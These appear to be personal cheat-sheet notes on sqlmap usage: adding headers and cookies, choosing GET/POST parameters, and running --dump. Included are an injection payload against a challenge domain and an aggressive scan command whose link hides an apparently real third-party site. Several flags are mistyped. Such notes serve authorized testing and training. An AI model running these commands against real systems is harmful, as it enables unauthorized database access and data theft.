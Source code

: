 
### modify header and add header to sqlmap request

—headers flag

```bash
sqlmap -u <target URL> --headers="User-Agent: Mozilla/5.0"
```

```bash
sqlmap -u <target URL> --headers="Origin:blab"
```

—cookie

```bash
sqlmap -u <target URL> --cookie="PHPSESSID=12345"
```

`--cookie-file` → load cookies file → usefull for bypassing WAF and reusing previouse sessions

```jsx
sqlmap -u 'https://studentportal.elfu.org/application-check.php?elfmail=buddytheelf%27OR1%3D1%23%40thenorthpole.com&token=MTAxMzMxMjgyODE2MTU4MzMwMTI5NDEwMTMzMTI4Mi44MTY%3D_MTI5NzA0MDQyMDA0NDgzMjQyNjAxMDUwLjExMg%3D%3D' --dump
```

```jsx
python3 [sqlmap.py](http://sqlmap.py/) -u '[https://target.com/Employee/CutEmployees/14020603?st=1](https://timesheet.sadadpsp.ir/Employee/CutEmployees/14020603?st=1)' --headers="Cookie: _ga46c8c7f73270e095" --batch --random-agent -p st,y,m -treads 1 -risk 3 -v 6 --technique=BEUSTQ
```

---

### Data

In a GET request:

```
$ sqlmap -u "http://example.com/?a=1&b=2&c=3" -p "a,b"

```

In a POST request:

```
$ sqlmap -u "http://example.com/" --data "a=1&b=2&c=3" -p "a,b" --method POST
...
[13:37:54] [WARNING] heuristic (basic) test shows that POST parameter 'a' might not be injectable
...
[13:37:59] [WARNING] heuristic (basic) test shows that POST parameter 'b' might not be injectable
...

```

Both examples would test the specified parameters `a` and `b`, but ignore `c`. (I also put them into double quotes which isn't actually necessary on Linux.)

---
